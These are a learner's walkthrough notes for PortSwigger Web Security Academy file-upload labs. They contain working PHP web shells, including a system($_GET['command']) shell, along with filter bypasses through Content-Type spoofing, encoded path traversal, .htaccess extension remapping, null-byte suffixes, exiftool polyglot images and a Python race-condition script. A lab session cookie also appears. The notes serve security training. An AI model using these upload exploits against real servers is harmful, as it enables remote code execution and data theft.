 # File upload vulnerabilities
https://portswigger.net/web-security/file-upload


<!-- Lab: Remote code execution via web shell upload -->
https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload

upload file: "readsecret.php"
file content:
<?php echo file_get_contents('/home/carlos/secret'); ?> 

response:
The file avatars/readsecret.php has been uploaded.

check payload: click on avatars photo link (https://0a3a007d04e799bcc0c074d100f50014.web-security-academy.net/files/avatars/readsecret.php):

wko5q7gQI8498YshAWtYyMzhSkMJGoLP

# DUDE!

A more versatile web shell may look something like this: 
    <?php echo system($_GET['command']); ?>

pass an arbitrary system command via a query parameter 
    GET /example/exploit.php?command=id HTTP/1.1


<!-- Lab: Web shell upload via Content-Type restriction bypass -->
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass

upload jpg/png file to establish base line - find and send to repeater

try to upload PHP file and watch it fails. gather clue from response about the error:
    Sorry, file type application/x-php is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.

send failed messege to repeater and change Content-Type Header from "application/x-php" to "image/png" and send again
see that no picture appears in avatar's thumbnail. open avatar picture in new tab:
qj6jFppdjbzmTHnwVljWqiW64NIn6MH2

# DUDE!

<!-- Lab: Web shell upload via path traversal -->
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal

try upload "readsecret.php"  - 
get 200 OK (== no restrictions)

go to avatar link: note that script not running

try uploading to different location via path traversal change in the Content-Disposition Header:
Content-Disposition: form-data; name="avatar"; filename="../../readsecret.php"

get 200 OK and messege:
The file avatars/readsecret.php has been uploaded
server strips path traversal address.

try again with obfuscating the path traversal:
..%2f..%2freadsecret.php

get 200 OK and messege:
The file avatars/../readsecret.php has been uploaded.
- path travarsal accepted

go to file location via avater link:
https://0aaa00f60484e7fdc0c54308007e0016.web-security-academy.net/files/avatars/..%2freadsecret.php

secret:
k4NrAJFZ4eXbbjgaBVH7EtqHPfw31NZi

..%2freadsecret.php

# DUDE!


<!-- Lab: Web shell upload via extension blacklist bypass -->
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

hint:

path:
 /etc/apache2/apache2.conf

file content:
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php

file:
web.config
file content:
    <staticContent>
        <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>

Apache servers, for example, will load a directory-specific configuration from a file called .htaccess if one is present. 


workthrough:

    1. uploaded web.config file:
        <staticContent>
            <mimeMap fileExtension=".zoz" mimeType="application/x-httpd-php" />
        </staticContent>

    2. uploaded php webshell with arbitary file extention .zoz:
        <?php echo file_get_contents('/home/carlos/secret'); ?> 

observed: server treats both as HTML and mark XML tags and PHP commands as remark
    1. <!--?xml version=â€™1.0â€ encoding=â€utf-8â€?-->
    2. <!--?php echo file_get_contents('/home/carlos/secret'); ?-->

lets try htaccsses way:
creat .htaccess file with content:
    AddType application/x-httpd-php .zoz 

upload both .htaccsess file and readsecret.zoz file to the same loaction
when visiting the webshell location at /file/avatars/readsecret.zoz the server treats .zoz file extension as defined by our freshly uploaded .htaccess and execute it as PHP

# DUDE!


<!-- Lab: Web shell upload via obfuscated file extension -->
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension

hints:
exploit.php.jpg - fail
exploit%2Ephp - fail
exploit.asp;.jpg - fail
exploit.asp%00.jpg - fail
exploit.p.phphp - fail

hints multibytes:
xC0 x2E
xC4 xAE
xC0 xAE
(tranlated to x2E if parsed as UTF8 --> converted to ASCII)

workthrough:
use extra suffix (.png) to pass filter and NULL byte (%00) to make server drop the extra suffix and use original suffix (.php):
readsecret.php%00.png
response: The file avatars/readsecret.php has been uploaded.

check location:
https://0a4d000b042b2ce1c07a4165009800dd.web-security-academy.net/files/avatars/readsecret.php


# DUDE!



<!-- Lab: Remote code execution via polyglot web shell upload -->
https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload

install exiftool from CLI:
git clone https://github.com/exiftool/exiftool.git

(when in picture folder) use exiftool to load PHP webshell into a comment in the picture:
CLI:
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpeg -o hackerExifPolyglot.php

upload the picture and enter to itsloaction. observe the code in the first line:
����JFIFHH��MSTART eU7Y7Sakq0OzgshfIC2JkM2m5gggGqEg END��C     ����� ���}!1AQa"q2���#B��R��$3br� 

(*note the JFIF magic number indicating a JPG/JPEG file)



# DUDE!


<!-- Lab: Web shell upload via race condition -->
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition

Hint
The vulnerable code that introduces this race condition is as follows:
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?> 


try to upload - failed

prepare a script to check temp location in loop:

try:
upload png file
get 200 OK

check Avatar thumbnail for file location:
https://0ad200e60315f642c0d063b5006f0035.web-security-academy.net/files/avatars/hacker.png


craft basic php webshell to read carlos secret:
readsecret.php:
<?php echo file_get_contents('/home/carlos/secret'); ?> 


try:
upload PHP webshell - failed
try: 
different techniques from previous labs - failed

prepare a pyhton script to loop-read file location:
    import requests

    burp0_url = "https://0ad200e60315f642c0d063b5006f0035.web-security-academy.net:443/"
    burp0_cookies = {"session": "T4rn1zASg1qLKDSEmeR2lZs8x7BV2hE5"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Dnt": "1", "Referer": "https://0ad200e60315f642c0d063b5006f0035.web-security-academy.net/my-account", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Sec-Gpc": "1", "Te": "trailers", "Connection": "close"}
    requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

    ###########################################

    # https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition

    temp_url1 = burp0_url + "files/avatars/readsecret.php"
    print(f"{burp0_url}\n{temp_url1}")


    def loop_reading():
        while True:
            response_temp1 = requests.get(temp_url1, headers=burp0_headers, cookies=burp0_cookies, proxies={"http": "http://127.0.0.1:8080"})
            print(f"location result:{response_temp1.content}\n")

    if __name__ == '__main__':
        loop_reading()

Race Against the Machine:
1. run py script - observe the 404 responses in loop
2. upload readsecret.php via repeater - observe forbidden 403
3. check py terminal  - observe py script wins race and prints carlos secret before file deleted by security

# DUDE!

